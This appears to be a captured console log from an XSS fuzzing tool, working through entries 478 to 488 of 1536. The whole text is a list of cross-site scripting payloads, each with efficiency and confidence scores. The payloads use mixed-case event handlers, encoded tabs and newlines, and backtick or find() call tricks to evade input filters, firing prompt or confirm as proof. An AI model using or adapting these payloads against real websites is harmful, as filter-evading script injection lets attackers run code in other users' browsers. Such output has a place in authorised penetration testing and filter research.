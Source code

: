 ------------------------------------------------------------
 Payload: <d3v%0doNMOUSEOVER%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 478/1536
 
------------------------------------------------------------
 Payload: <HTml/+/ONMousEOvER%0a=%0aa=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 479/1536
 
------------------------------------------------------------
 Payload: <a%09ONmOusEover%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 480/1536
 
 Progress: 481/1536
 
------------------------------------------------------------
 Payload: <D3V/+/onMOuSeOVEr%0a=%0a(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 482/1536
 
------------------------------------------------------------
 Payload: <a/+/onpoiNTEreNteR%0a=%0a[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 483/1536
 
------------------------------------------------------------
 Payload: <A%0aonmousEOveR%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 484/1536
 
 Progress: 485/1536
 
------------------------------------------------------------
 Payload: <D3v%09ONMOusEoveR+=+confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 486/1536
 
------------------------------------------------------------
 Payload: <D3v%0aonmOUSEOver%0d=%0d(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 487/1536
 
------------------------------------------------------------
 Payload: <a%0aONmOUsEovEr+=+confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 488/1536
 